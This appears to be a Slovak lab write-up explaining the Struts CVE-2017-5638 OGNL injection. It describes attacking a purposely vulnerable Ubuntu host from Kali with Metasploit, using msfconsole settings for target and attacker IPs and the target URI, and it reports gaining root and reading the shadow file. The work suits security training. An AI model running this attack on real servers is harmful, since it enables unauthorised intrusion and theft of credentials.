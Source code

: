 # Otestovanie zraniteľnosti Struts na Ubuntu 16.04.02

Zraniteľnosť CVE-2017-5638 sa týkala webového aplikačného rámca Struts, ktorý slúži na vytváranie webových
aplikácií v programovacom jazyku Java. Jednalo sa o verzie rámca Struts od 2.3.5 do 2.3.31 a od 2.5
po 2.5.10. Rámec Struts bol zraniteľný voči útoku *remote command injection*, kvôli nesprávnemu spracovaniu
hlavičky  Content-Type v požiadavke HTTP, čo umožňovalo vykonanie príkazov pod oprávneniami webového servera.

Zraniteľnosť vznikla kvôli analyzátoru Jakarta Multipart, ktorý slúži na odosielanie súborov.
Ak hodnota v hlavičke Content-Type nebola platná, čiže nezodpovedala očakávanému platnému typu,
vyhodí sa výnimka, ktorá sa následne použije na zobrazenie chybovej správy používateľovi. V tomto
prípade môžeme nastaviť hlavičku Content-Type na výraz v jazyku OGNL. Takto bolo možné spustiť OGNL príkazy,
ktoré následne spustili systémové volania.

## Konfigurácia Ubuntu

Pre vytvorenie zraniteľného systému sme postupovali podľa návodu
*[Exploiting Apache Struts with CVE-2017-5638](https://samsclass.info/124/proj14/p9xstruts.htm)*. Podľa návodu sme
nainštalovali webový server Apache Tomcat a Maven. Na záver sme na server vložili zraniteľný rámec Struts.

## Konfigurácia Kali Linux

Pre zaútočenie sme si vložili súbor `set-msfconsole.rc` a `HACK.sh` na plochu distribúcie. Útok spustíme otvorením konzoly a spustením príkazu:

```shell
./Desktop/HACK.sh
```

`HACK.sh` nám otvorí v konzole nástroj msfconsole pomocou súboru `set-msfconsole.rc`. V ňom sa nastaví IP zraniteľnej mašiny pomocou
`set RHOSTS 192.168.50.30` a cesta `set targeturi /struts2_2.3.15.1-showcase/showcase.action`, čo nám nastaví cestu k
zraniteľnej aplikácii Struts. Ostáva nám nastaviť IP útočníka `set LHOST 192.168.50.31` a spustiť útok. 

Útok prebehne úspešne, dokonca dostaneme privilégiá *root*, čiže môžeme čítať súbor shadow.
